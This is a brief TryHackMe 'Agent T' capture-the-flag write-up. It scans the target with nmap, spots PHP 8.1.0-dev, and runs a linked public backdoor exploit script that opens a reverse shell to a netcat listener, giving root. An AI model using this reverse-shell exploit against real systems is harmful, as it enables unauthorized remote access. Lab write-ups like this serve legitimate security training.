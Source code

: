 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

## Scanning && Enumeration

Let's start with the network scan first.

<p align="center">
  <img src="/img/agent_t_thm/0.png">
</p>

```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.

### Resources

  - https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py



